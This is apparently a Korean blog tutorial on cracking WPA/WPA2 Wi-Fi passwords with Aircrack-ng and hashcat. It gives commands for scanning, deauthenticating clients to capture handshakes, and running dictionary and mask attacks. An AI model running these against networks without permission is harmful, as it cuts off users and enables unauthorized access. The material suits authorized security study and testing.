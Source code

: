 ```yaml
---
layout: post
title: Aircrack-ng
subtitle: 무선AP 해킹
author: 마준영
categories: etc
tags:
  - Aircrack-ng
---
```


## Aircrack

```shell
iwconfig #랜카드 이름 확인
airmon-ng start wlan0 #monitor모드 실행, wlan0은 랜카드 이름
airodump-ng wlan0 #스캔 실행
iw list | grep -A 10 Frequencies #랜카드가 주파수 대역이 되는지 확인 Frequencies에서 확인가능
airodump-ng wlan0 --channel 36 #특정 5GHz 채널만 스캔
airodump-ng wlan0 --band a #`--band a` : 5GHz 대역
airodump-ng wlan0 --band abg #`--band abg` : 2.4GHz + 5GHz 전체
airodump-ng wlan0 --band bg #`--band bg` : 2.4GHz전체
airodump-ng wlan0 --band a -w [파일명] #파일로 저장
airodump-ng -c 11 --bssid [공유기 맥주소] -w [저장될 파일명] wlan0 #타겟을 정한 후 채널을 고정하여 스캔하며 대기
aireplay-ng --deauth 10 -a [공유기 맥주소] -c [클라이언트 맥주소] wlan0 #클라이언트의 연결을 강제 종료, 재연결되면 handshake 패킷을 딸 수 있다. deauth는  try횟수
aircrack-ng [캡처파일].cap -w [워드리스트] #사전공격
```

사용예시
![](/assets/images/posts/2025-03-26-aircrack/bea8c9475a9856ca2c6d5ff48d3082dc_MD5.jpeg)
### 🛰️ 상단: AP (Access Point) 정보 테이블

| 항목명            | 의미                                           |
| -------------- | -------------------------------------------- |
| **BSSID**      | AP의 MAC 주소 (무선 공유기의 고유 식별자)                  |
| **PWR**        | 수신 신호 세기 (Power) - 숫자가 작을수록(0에 가까울수록) 신호가 강함 |
| **Beacons**    | 일정 간격으로 AP가 송신하는 비콘 패킷의 수                    |
| **#Data, #/s** | 데이터 패킷 수 및 초당 전송 속도                          |
| **CH**         | 채널 번호 (해당 AP가 사용하는 Wi-Fi 채널)                 |
| **MB**         | 최대 전송 속도 (Mbps)                              |
| **ENC**        | 암호화 방식 (Encryption: WPA2, WPA3 등)            |
| **CIPHER**     | 암호화에 사용되는 알고리즘 (예: CCMP, TKIP)               |
| **AUTH**       | 인증 방식 (예: PSK = Pre-shared Key, SAE 등)       |
| **ESSID**      | 네트워크 이름 (Wi-Fi SSID)                         |

### 📱 하단: 클라이언트(기기) 정보 테이블

|항목명|의미|
|---|---|
|**BSSID**|연결된 AP의 MAC 주소 (또는 Probe 중인 경우 NULL)|
|**STATION**|클라이언트(기기)의 MAC 주소|
|**PWR**|수신 신호 세기 (기기로부터 수신된 신호의 강도)|
|**Rate**|송수신 속도 (예: 6e-0은 6 Mbps)|
|**Lost**|손실된 패킷 수|
|**Frames**|수신된 프레임 수|
|**Notes**|기타 정보|
|**Probes**|클라이언트가 탐색 중인 SSID (연결하고자 하는 Wi-Fi 이름)|

```text
#기타정보
PSK : Presharedkey, 인데 wifi가 미리 공유된 key값을 이용해서 크랙이 일반적임

SAE,MGT : 찾아보기

WEP, WAP, WAP2, WAP3
OPN

스캔할 층 4,6,7,19,25
```


Handshake 성공시 
![](/assets/images/posts/2025-03-26-aircrack/a04bfe866a566f081c5ff93c3e601a75_MD5.jpeg)

Crack 성공시
![](/assets/images/posts/2025-03-26-aircrack/a7623d10a8117b57a88d3995f81f0be8_MD5.jpeg)

## hashcat으로 크랙

딕셔너리 기반은 현실적이지 않은 것 같다. 
hashcat으로 해보자.
```shell
aircrack-ng [파일이름].cap -J [출력파일명] #hasndshake가 있는 cap파일을 hashcat용으로 변환
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #안된다
```
- `-m 2500` → WPA/WPA2 (hccapx 포맷)
    
- `-a 0` → 사전(dictionary) 공격
    
- `handshake.hccapx` → 대상 해시 파일
    
- `/usr/share/wordlists/rockyou.txt` → 워드리스트 경로

뭔가 .cap에서 hashcat용으로 변환할때 문제가 있었던 것 같다.
전용 툴을 이용해서 변환해보자.
```shell
hcxpcapngtool -o [만드려는 파일명].hccapx [cap파일].pcapng #특이하게 원본 파일명이 뒤에옴
hcxpcapngtool -o home-01.22000 home-01.cap #확장자는 hccapx든 22000이든 상관 없는듯
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #만든 파일로 워드리스트 크랙하기, 2500은 구버전이라 안되는거같다. 22000으로 하는게 좋을듯
hashcat -m 22000 -a 3 home-01.22000 ?u?u?u?u?d?d?d?d #마스크공격 예시
```

| 옵션         | 의미                                          |
| ---------- | ------------------------------------------- |
| `-m 0`     | MD5                                         |
| `-m 100`   | SHA1                                        |
| `-m 22000` | **WPA/WPA2 (EAPOL + PMKID)** 👉 우리가 지금 쓰는 거 |
| `-m 2500`  | WPA/WPA2 (구버전 hccapx, 현재는 deprecated)       |
| `-m 3000`  | LM (Windows old password hash)              |
| `-m 1000`  | NTLM (Windows 로그인 해시)                       |

| 옵션     | 공격 방식                     | 설명                   |
| ------ | ------------------------- | -------------------- |
| `-a 0` | **Wordlist (Dictionary)** | 워드리스트에 있는 단어들로 대입 공격 |
| `-a 1` | Combination               | 두 워드리스트를 조합해서 시도     |
| `-a 3` | **Brute-force (마스크 공격)**  | 직접 문자 조합을 정의해서 전수조사  |
| `-a 6` | Hybrid Wordlist + Mask    | 단어 + 마스크 조합          |
| `-a 7` | Hybrid Mask + Wordlist    | 마스크 + 단어 조합          |

hashcat은 훨씬 빠르고 GPU 지원도 돼서 `aircrack-ng`보다 나아요.
~~그런데 써보니까 GPU가 죽으려해요~~
![](/assets/images/posts/2025-03-26-aircrack/b2a7f50f00c6af8e529d2ec1cd1a9018_MD5.jpeg)

### 이 GPU의 성능

|항목|내용|
|---|---|
|GPU 종류|**내장 그래픽** (iGPU)|
|성능 수준|엔트리급 (게이밍/병렬처리 성능 낮음)|
|OpenCL 지원|**있긴 하지만 매우 제한적**|
|해시 처리 성능|약 **2~10k H/s (초당 수천 해시)** 수준|

---

### 🎯 해시캐팅 속도 예시

`hashcat -m 22000 -a 3 ?u?u?u?u?d?d?d?d`  
(앞 4자리 대문자 + 뒤 4자리 숫자 = 약 4.56억 조합)

#### ⏱ 대략 계산해보면:

예를 들어 **초당 5000 해시 처리**된다고 가정하면:
```
456,000,000 / 5,000 = 91,200초 ≈ 25시간
```

만약 속도가 더 낮아서 **2000 H/s**라면:
```
456,000,000 / 2,000 = 228,000초 ≈ 63시간
```
*이 시간들 또한 정규식 예측이 가능 하다는 가정하에 이루어진 시간 입니다.*
